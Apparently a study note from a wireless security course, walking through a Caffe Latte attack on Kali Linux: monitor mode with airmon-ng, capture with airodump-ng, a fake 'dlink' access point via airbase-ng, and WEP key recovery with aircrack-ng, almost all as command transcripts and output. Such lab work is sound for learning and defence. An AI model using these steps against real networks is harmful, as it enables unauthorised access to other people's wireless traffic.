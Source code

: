 #### Part 17: Caffe Latte Attack Demo

```Client side attack```

Before connecting the Alfa card

```sh
root@kali:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.0.101  netmask 255.255.255.0  broadcast 192.168.0.255
        inet6 fe80::a00:27ff:feec:26e5  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:ec:26:e5  txqueuelen 1000  (Ethernet)
        RX packets 51830  bytes 3435415 (3.2 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 47066  bytes 33321752 (31.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1  (Local Loopback)
        RX packets 248  bytes 12512 (12.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 248  bytes 12512 (12.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~#
```	
	
Connect the Alfa card

```sh
root@kali:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.0.101  netmask 255.255.255.0  broadcast 192.168.0.255
        inet6 fe80::a00:27ff:feec:26e5  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:ec:26:e5  txqueuelen 1000  (Ethernet)
        RX packets 113  bytes 13062 (12.7 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 116  bytes 19058 (18.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1  (Local Loopback)
        RX packets 20  bytes 1116 (1.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 20  bytes 1116 (1.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~# ifconfig -a
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.0.101  netmask 255.255.255.0  broadcast 192.168.0.255
        inet6 fe80::a00:27ff:feec:26e5  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:ec:26:e5  txqueuelen 1000  (Ethernet)
        RX packets 124  bytes 13940 (13.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 123  bytes 20732 (20.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1  (Local Loopback)
        RX packets 20  bytes 1116 (1.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 20  bytes 1116 (1.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan0: flags=4098<BROADCAST,MULTICAST>  mtu 1500
        ether 00:c0:ca:92:3c:89  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~# ifconfig wlan0 up
root@kali:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.0.101  netmask 255.255.255.0  broadcast 192.168.0.255
        inet6 fe80::a00:27ff:feec:26e5  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:ec:26:e5  txqueuelen 1000  (Ethernet)
        RX packets 377  bytes 30254 (29.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 169  bytes 26425 (25.8 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1  (Local Loopback)
        RX packets 20  bytes 1116 (1.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 20  bytes 1116 (1.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        ether ae:ac:75:a7:71:b2  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~#
```

Put the card in monitor mode

```sh
root@kali:~# airmon-ng

PHY	Interface	Driver		Chipset

phy1	wlan0		rtl8187		Realtek Semiconductor Corp. RTL8187

root@kali:~# airmon-ng start wlan0

Found 3 processes that could cause trouble.
If airodump-ng, aireplay-ng or airtun-ng stops working after
a short period of time, you may want to run 'airmon-ng check kill'

  PID Name
  400 NetworkManager
  569 dhclient
  804 wpa_supplicant

PHY	Interface	Driver		Chipset

phy1	wlan0		rtl8187		Realtek Semiconductor Corp. RTL8187

		(mac80211 monitor mode vif enabled for [phy1]wlan0 on [phy1]wlan0mon)
		(mac80211 station mode vif disabled for [phy1]wlan0)

root@kali:~# airmon-ng

PHY	Interface	Driver		Chipset

phy1	wlan0mon	rtl8187		Realtek Semiconductor Corp. RTL8187

root@kali:~#
```

Check for the monitor mode interface

```sh
root@kali:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.0.101  netmask 255.255.255.0  broadcast 192.168.0.255
        inet6 fe80::a00:27ff:feec:26e5  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:ec:26:e5  txqueuelen 1000  (Ethernet)
        RX packets 518  bytes 40324 (39.3 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 236  bytes 35799 (34.9 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1  (Local Loopback)
        RX packets 20  bytes 1116 (1.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 20  bytes 1116 (1.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan0mon: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        unspec 00-C0-CA-92-3C-89-30-30-00-00-00-00-00-00-00-00  txqueuelen 1000  (UNSPEC)
        RX packets 858  bytes 151521 (147.9 KiB)
        RX errors 0  dropped 858  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~# iwconfig
lo        no wireless extensions.

eth0      no wireless extensions.

wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on

root@kali:~#
```

Start ```airodump-ng```

```sh
root@kali:~# airodump-ng wlan0mon --channel 4 --essid dlink --write CaffeLatte

 CH  4 ][ Elapsed: 3 mins ][ 2017-06-06 20:23 ][ Broken SKA: 00:C0:CA:92:3C:89

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 00:C0:CA:92:3C:89    0   0     3722    21057  158   4  54   WEP  WEP    SKA  dlink

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe

 00:C0:CA:92:3C:89  BC:9F:EF:69:35:19  -57    0 - 5      8    21543  dlink,HiddenSSID
 (not associated)   16:66:C5:DF:B0:C9  -66    0 - 1      0        1
 (not associated)   64:80:99:D7:8E:03  -66    0 - 1      0        3  ATT016
 (not associated)   20:7C:8F:31:D4:55  -66    0 - 1      0       12
 (not associated)   A4:5E:60:E1:D7:17  -67    0 - 1      0        1  NETGEAR35
 (not associated)   3C:BB:FD:98:55:54  -64    0 - 1     56        4  NETGEAR47
 (not associated)   F4:F5:D8:2F:99:D0  -62    0 - 1    649       16  Lowspeed
 (not associated)   F4:F5:D8:49:3D:C4  -69    0 - 1      0        1  Phanisri
 (not associated)   FC:3D:93:32:BF:A0  -70    0 - 1      0        9
 (not associated)   AC:72:89:03:90:CC  -73    0 - 1      0        2  NETGEAR15
 (not associated)   80:D2:1D:44:EA:44  -45    0 - 1      0       11  NETGEAR10
 (not associated)   B8:8A:60:AA:DA:02  -50    0 - 1      0        4  Kaiser
 (not associated)   C2:1E:4B:9B:AA:29  -57    0 - 1      0        6
 (not associated)   AC:EE:9E:63:EB:22  -58    0 - 1      0        1

root@kali:~#

```

Create a fake AP ```dlink``` as the client was probing for that AP

```sh
root@kali:~# airbase-ng -W 1 --essid dlink --channel 4 wlan0mon -L -x 10
20:20:06  Created tap interface at0
20:20:06  Trying to set MTU on at0 to 1500
20:20:06  Access Point with BSSID 00:C0:CA:92:3C:89 started.
20:20:19  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
20:20:19  SKA from BC:9F:EF:69:35:19
20:20:19  Client BC:9F:EF:69:35:19 associated (WEP) to ESSID: "dlink"
20:20:44  Starting Caffe-Latte attack against BC:9F:EF:69:35:19 at 10 pps.
```

The client successfully connected to our fake soft AP.

Ones we have more than 20,000 ```Data``` packets we can go ahead and crack it using ```Aircrack-ng```

```sh
root@kali:~# aircrack-ng CaffeLatte-01.cap
Opening CaffeLatte-01.cap
Read 109313 packets.

   #  BSSID              ESSID                     Encryption

   1  00:C0:CA:92:3C:89  dlink                     WEP (20198 IVs)

Choosing first network as target.

Opening CaffeLatte-01.cap
Attack will be restarted every 5000 captured ivs.
Starting PTW attack with 20230 ivs.

                                          Aircrack-ng 1.2 rc4


                          [00:00:01] Tested 129285 keys (got 20111 IVs)

   KB    depth   byte(vote)
    0    0/  2   AA(32768) B4(30720) A3(27392) 65(26368) 6C(26112) F7(25856) 10(25600)
    1    2/ 18   BB(25856) 34(25344) 00(25088) 3D(25088) 60(24576) AB(24576) B4(24576)
    2    0/  8   CC(27904) 76(27648) 5D(26880) 69(26880) DE(26368) DC(25856) 0A(25856)
    3    3/ 16   DD(25600) 2E(25600) 50(25600) 2B(25344) A5(25088) DF(25088) F1(25088)
    4   21/ 29   00(23808) 05(23552) 25(23552) 34(23552) 63(23552) E0(23552) E7(23552)

                         KEY FOUND! [ AA:BB:CC:DD:EE ]
	Decrypted correctly: 100%


root@kali:~#
```

![Image of Demo](https://github.com/Kan1shka9/Wireless-LAN-Security-Megaprimer-Notes/blob/master/images/part_17.jpeg)
